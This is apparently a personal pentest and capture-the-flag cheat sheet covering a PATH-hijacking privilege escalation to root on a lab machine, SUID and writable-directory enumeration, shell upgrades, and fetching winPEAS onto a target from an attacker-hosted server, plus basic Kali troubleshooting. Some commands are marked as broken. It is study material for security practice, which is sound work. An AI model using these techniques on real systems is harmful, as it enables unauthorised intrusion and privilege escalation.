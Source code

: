 # NOTES
STUDY MATERIAL >.&lt;

- [Uncat](#uncategorized)
- [SERVICES](#services)
- [Tools](#tools)
  - [Network Scanning](#network-scanning-tools)
    - [NMAP](#nmap)
  - [WEB DIRECTORY SCANNING](#) 
    - [GOBUSTER](#)
  - []()
  - []()
  - []()
  -   
- []()
- []()
- []()
- []()


# Uncat
MY PENTEST CHEAT SHEET AND BASIC KALI SETUP/TROUBLESHOOT COMMANDS

Linux Tools, Scripts & Services

# 

# Bash Scripts (For CTF)

$ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’  → sh to bash shell

# Exploit PATH Hijacking

matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ ls
'GCONV_PATH=.'   [setup.sh](http://setup.sh/)   tar   user.txt   value   wget-log
matt@pandora:~$ export PATH=$(pwd):$PATH
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# whoami
root

Enumeration for SUID files $ find / -user root -perm -4000 -exec ls -ldb {} ; >/tmp/suidfiles

Enumeration for user executable location $ find / -type d -maxdepth 2 -writable -exec ls -l {} + 2>/dev/null

$ find / -type d -maxdepth 2 -writable -exec ls -l {} 2> + /dev/null (THIS ONE DOSENT WORKS)
/ : Scan the entire device
-type d : Scan for directories only (No files)
-maxdepth : The max depth (subfolders) to scan
-writable : Check if current user an write in folder
-exec : Execute a command on the results returned by find ls
-l {} + : List the output in long form ( {} is placeholder for the location where result of the find command is substituted. The + at the end is used to terminate the -exec command)

$ python3 -m http.server {port} (ip before port is optional i guess) - host file to download on target system, File should be in the same folder where the hosting service is started

$ wget {ip}:port/filename

$ “curl” is more likely to read the content of files in linux whereas wget is to download the files!!!

$ curl –head {IP} - To get the header of the website..
for eg. i got “X-Backend-Server: office.paper” for 10.10.11.143 so i added this ip in /etc/hosts following with the IP like this “10.10.11.143 office.paper” and then went to search [http://office.paper](http://office.paper/) and the i got the website running which was earlier showing default apache page bcos it was not set up.

$ powershell “curl|wget” http://10.0.0.1/winPEASx64.exe -outfile winPEASx64.exe

# FOR CTF :

Finding total flags xD (ctf ezz) $ find / -name flag.txt 2> /dev/null

while true; do echo “yassk” > /root/king.txt; done &



==========================================================================================

KALI LINUX TROUBLE-SHOOTS AND BASICS

1. Unable to download or install packages using "apt-get"
    
    file path = /etc/apt/sources.list
    
    We have to uncomment 2nd source link in sources.list file to be able to use "sudo apt-get install" command.
    After uncommenting use "sudo apt-get update" to update the changes and reflect in our kali system. Then re-run the command not working
    
2. Shells
    
    echo $SHELL -  to print current shell
    
    chsh - to change the current shell.
    
    There are couple of shells in kali from which we can use, currently zsh is by default in my machine.
    
3. Update kali to latest version
    
    kali@kali:~$sudo apt update
    
    kali@kali:~$ sudo apt full-upgrade -y


# SERVICES

# Tools
## NetworkScanning
### NMAP
    

